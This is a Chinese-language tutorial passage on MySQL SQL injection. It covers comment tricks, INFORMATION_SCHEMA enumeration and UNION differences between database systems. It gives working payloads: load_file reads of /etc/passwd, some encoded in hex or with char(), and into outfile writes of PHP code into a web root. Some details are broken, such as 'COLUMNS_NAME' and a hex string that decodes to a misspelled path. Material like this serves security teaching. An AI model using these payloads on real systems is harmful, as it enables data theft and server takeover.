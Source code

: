 ②：--：行注释，不同的是这个注释后要跟一个或多个空格，或者tag。

③：/**/：块注释，也是多行注释。

/**/块注释有一个特点，如下sql语句：

执行结果正常显示，/**/是没有起作用的，因为其！有特殊意义，像图中的/*！55555，username*/则表示如果版本号高于或等于5.55.55，则会被执行。如果！后不加版本号，mysql则会直接执行sql语句。
### 二、获取元数据
MySQL 5.0及其以上版本提供了INFORMATION_SCHEMA,INFORMATION_SCHEMA是信息数据库，它提供了访问数据库元数据的方式。
（1）查询用户数据库名称
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1
语句的含义为：从INFORMATION_SCHEMA.SCHEMATA表中查询出第一个数据库名称。
INFORMATION_SCHEMA.SCHEMATA提供了关于数据库的信息。
（2）查询当前数据库表
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=(select DATABASE()) limit 0,1
语句的含义为：从INFORMATION_SCHEMA.TABLES表中查询当前数据库表，并且只显示第一条数据，INFORMATION_SCHEMA.TABLES表给出了关于数据库中表的信息。
（3）查询指定表的所有字段
select COLUMNS_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='Student' LIMIT 0,1
语句的含义为：从INFORMATION_SCHEMA.COLUMNS表中查询TABLE_NAME为Student的字段名，并置只显示一条。INFORMATION_SCHEMA.COLUMNS表给出了表中的列信息。

### 三、UNION查询
MySQL与Oracle并不像SQL Server那样可以执行多语句。所以，在利用查询时，通常配合UNION关键字。

SQL Server与MySQL、Oracle中的UNION关键字的使用基本相同，但也有少许差异。通过下面的语句来验证。

分别在SQL Server、MySQL中执行以下SQL语句：

select id,username,password from users union select 1,2,3
Oracle数据库执行以下SQL语句：
select id,username,password from users union select 1,2,3 from dual
SQL Server和Oracle：语句错误，数据类型不匹配，无法正常执行（列的数据类型在不确定的情况下，最好使用NULL关键字匹配）
MySQL：语句正常执行

在Oracle与SQL Server中，列的数据类型在不确定的情况下，最好使用NULL关键字匹配。


### 四、MySQL函数利用
（1）load_file（）函数读文件操作
文件必须为全路径名称（绝对路径），而且用户必须持有FILE权限，文件容量也必须小于max_allowed_packet字节。
union select 1,load_file('/etc/passwd'),3,4,5,6 #
union select 1,load_file('0x2F6563742F706173737764'),3,4,5,6 #
union select 1,load_file(char(47,101,99,116,47,112,97,115,115,119,100)),3,4,5,6 #
（2）into outfile写文件操作
文件必须为全路径名称（绝对路径），而且用户必须持有FILE权限。
select '<?php phpinfo();?>' into outfile 'c:\wwwroot\1.php'
select char(99,58,92,50,46,116,120,116) into outfile 'c:\wwwroot\1.php'

into dumpfile和into outfile的区别：dumpfile适用于二进制文件，它会将目标文件写入同一行内；而OUTFILE则更适用于文本文件。

（3）连接字符串
在MySQL查询中，如果需要一次查询多个数据，可以使用concat()或concat_ws()函数来完成。
concat()函数:select name from student where id=1 union select concat(user(),',',database(),',',version());
concat_ws()函数：select name from student where id=1 union select concat_ws(0x2c,user(),database(),version());
